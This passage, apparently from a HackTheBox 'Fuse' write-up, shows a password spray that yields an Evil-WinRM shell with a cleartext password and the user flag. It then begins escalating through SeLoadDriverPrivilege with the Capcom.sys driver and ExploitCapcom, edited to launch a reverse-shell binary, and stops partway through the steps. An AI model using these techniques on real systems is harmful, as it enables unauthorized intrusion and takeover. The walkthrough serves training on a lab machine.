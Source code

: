 
4. Add the new users to your list and try to spray again towards SMB and WinRM.

   SMB doesn't work, and neither do the msf-module winrm_login. However I've previously built a dirty Evil-WinRM
   login script that did give us access.

   root@nidus:/git/htb/fuse# ./evil-login.sh 10.10.10.193 creds.txt
     Testing credentials 'svc-print:$fab@s3Rv1ce$1

     Evil-WinRM shell v2.3
     Info: Establishing connection to remote endpoint

     *Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
      fabricorp\svc-print
     *Evil-WinRM* PS C:\Users\svc-print\Documents> type ../Desktop/user.txt
      47863580fe3b92e48cf8363d4756743f


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Standard enumeration shows us that the user has some unusual privileges, googling about them we find one can be used for privesc.

    *Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /all

      [..]

      PRIVILEGES INFORMATION
      ----------------------

      Privilege Name                Description                    State
      ============================= ============================== =======
      SeMachineAccountPrivilege     Add workstations to domain     Enabled
      SeLoadDriverPrivilege         Load and unload device drivers Enabled
      SeShutdownPrivilege           Shut down the system           Enabled
      SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
      SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

   One page tells us:
   "SeLoadDriverPrivilege - A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka NT\System"


2. We can exploit this using the PoC "EoPLoadDriver" in combination with the malicious "ExploitCapcom", both found on Github.

   FIRST:
  - Download https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
  - Download https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
  - Download https://github.com/tandasat/ExploitCapcom
  - Edit ExploitCapcom.cpp line 292
      TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
      to
      TCHAR CommandLine[] = TEXT("C:\\temp\\p3-rev.exe");
      then compile ExploitCapcom.cpp and eoploaddriver.cpp to .exe (I did not succeed to do this in Kali, did it in Windows using Visual Studio 2019)
